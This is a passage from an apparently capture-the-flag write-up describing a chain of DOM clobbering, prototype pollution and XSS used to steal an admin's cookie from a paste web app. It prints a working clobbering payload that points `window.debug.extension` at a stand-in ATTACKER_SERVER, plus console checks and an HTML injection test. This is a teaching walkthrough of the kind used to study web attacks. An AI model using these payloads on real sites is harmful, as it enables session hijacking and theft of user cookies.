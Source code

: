 ## Solution

We've established the attack plan:

1. `CLOBBER`: we need to clobber the DOM so that `window.debug.extension` contains a URL.
2. `POLLUTE`: the URL should deliver a JSON object, which pollutes `__proto__` with `sanitizer: false`.
3. `INJECT`: with `debug.sanitize`, we can inject an XSS payload into the `paste` field. It will be injected into the page HTML, _without sanitization_.

Once we've successfully chained these vulns, we can send the report to the admin and wait for our cookie 🚩

### Browser issue detour

I got stuck for a little while trying to put this attack together, until I remembered the recent [Intigriti challenge](https://www.youtube.com/watch?v=Marqe2SEYok) that used `Sanitizer()`. In this challenge, players were advised to test on Google Chrome, whereas I am using Firefox 🦊

I thought; no worries, just like in that video writeup, we can manually enable Sanitizer by going to `about:config` and setting `dom.security.sanitizer.enabled` to `true`.

Once that was enabled, HTML injection worked! Submitting the following payload as the `title` and `paste` values, produced **bold** output 🔥

```html
<b>420</b>
```

Unfortunately, I got stuck again at the next step and switching to Chrome solved it (you might want to do the same, if you're having issues).

### Part 1: DOM Clobbering

We review some of the earlier documentation, or use this awesome [DOMC Payload Generator](https://domclob.xyz/domc_payload_generator)

```txt
target: debug.extension
value: //ATTACKER_SERVER
```

We can try the various payloads and each time check the value of `window.debug.extension` in the console.

```html
<a id="debug"></a><a id="debug" name="extension" href="//ATTACKER_SERVER"></a>
```

```js
>> window.debug.extension.toString()
<- 'https://attacker_server'
```

Perfect! So we know that

```js
fetch(window.debug?.extension.toString());
```
